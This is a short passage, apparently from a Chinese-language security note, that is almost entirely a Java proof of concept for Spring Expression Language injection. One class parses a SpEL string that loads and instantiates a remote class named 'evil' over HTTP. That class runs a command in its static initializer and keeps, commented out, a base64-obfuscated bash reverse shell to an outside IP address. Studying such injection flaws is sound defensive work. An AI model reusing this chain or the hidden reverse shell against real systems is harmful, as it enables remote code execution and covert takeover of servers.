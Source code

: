 然后那个getconstructors其实也没必要那么写

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

import java.lang.reflect.InvocationTargetException;
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLClassLoader;

public class SpelVulTest {
    public static void main(String[] args) throws MalformedURLException, ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException {
        String cmdStr = "new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8888/')}).loadClass(\"evil\").newInstance()";
        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class evil extends AbstractTranslet {
    static {
        try {
            //Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTQuMTE2LjExOS4yNTMvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}");
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }

    }

    public static void main(String[] args) {

    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```
